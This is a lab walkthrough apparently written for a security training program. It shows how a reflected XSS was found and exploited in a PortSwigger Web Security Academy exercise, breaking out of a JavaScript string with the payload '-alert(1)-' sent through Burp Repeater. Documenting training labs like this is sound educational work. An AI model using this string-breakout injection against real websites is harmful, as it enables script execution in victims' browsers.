








## 📌 Overview

This walkthrough demonstrates the identification and exploitation of a reflected Cross-Site Scripting (XSS) vulnerability inside a JavaScript string context using Burp Suite and PortSwigger Web Security Academy.

The application reflects user-controlled input directly into JavaScript code without proper sanitization, allowing arbitrary JavaScript execution.


---

# 🛠 Tools Used

| Tool                             | Purpose                                |
| -------------------------------- | -------------------------------------- |
| Kali Linux                       | Operating environment                  |
| Burp Suite Community Edition     | Request interception & payload testing |
| Firefox                          | Browser interaction                    |
| PortSwigger Web Security Academy | Vulnerable target application          |

---

# 🌐 Step 1 — Access the Lab

Opened the PortSwigger lab:

```text id="m4x8qa"
Reflected XSS into a JavaScript string with angle brackets HTML encoded
```

✔ Lab initialized successfully

📸 Evidence 1 — Initial application response



---

# 🔍 Step 2 — Initial Recon

Used the application search functionality with:

```text id="n5q1xp"
test
```

Captured request:

```http id="r8m4vl"
GET /?search=test HTTP/2
```

Observed that the search parameter was reflected back inside the application response.

✔ Reflection point successfully identified

📸 Evidence 2 — Initial search request captured



---

# 📡 Step 3 — Original Request

After performing a search operation inside the application, the following request was captured in Burp Suite:

```http id="m4x8qa"
GET /?search=test HTTP/2
```

This request confirmed that user-controlled input was being passed directly through the `search` parameter.

✔ Original request successfully captured

📸 Evidence 3 — Original request inside Burp Suite



---

# ✏️ Step 4 — Modified Request

The captured request was sent to:

```text id="n5q1xp"
Repeater
```

The original value:

```text id="r8m4vl"
test
```

was modified to:

```text id="k2w7qa"
hello
```

Resulting request:

```http id="t9v3wk"
GET /?search=hello HTTP/2
```

This allowed controlled reflection testing and response analysis inside the JavaScript context.

✔ Modified request processed successfully

📸 Evidence 4 — Modified request inside Burp Repeater



---

# 🧪 Step 5 — Analyze Reflection Context

Inside the response, the search parameter appeared directly inside JavaScript code:

```javascript id="r3v9zk"
var searchTerms = 'hello';
```

The response also contained:

```javascript id="v6n2qa"
document.write(
```

This confirmed:

* User input is reflected inside a JavaScript string
* The application dynamically writes content to the DOM
* Angle brackets are encoded
* JavaScript string breakout is possible

✔ Vulnerable JavaScript context identified

📸 Evidence 5 — JavaScript reflection context identified

 

---

# 💣 Step 6 — Craft XSS Payload

A payload was developed to:

* Close the existing JavaScript string
* Execute arbitrary JavaScript
* Maintain valid syntax

Payload used:

```javascript id="z2v7wl"
'-alert(1)-'
```

Injected request:

```http id="a5v1np"
GET /?search='-alert(1)-' HTTP/2
```

✔ Payload injected successfully

📸 Evidence 6 — Payload injection through Repeater



---


# 🏁 Step 7 — Lab Solved

PortSwigger confirmed successful exploitation.

✔ Lab marked as solved

📸 Evidence 8 — Lab solved confirmation


---

📸 Evidence 8 — Lab solved confirmation


----


# 📌 Conclusion

This walkthrough demonstrated the complete exploitation flow of a reflected XSS vulnerability inside a JavaScript string context.

The attack involved:

* Reflection discovery
* JavaScript context identification
* Payload engineering
* Arbitrary JavaScript execution

Result: Successful reflected XSS exploitation through JavaScript string breakout.

---

This work is part of FuzzRaiders' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

---


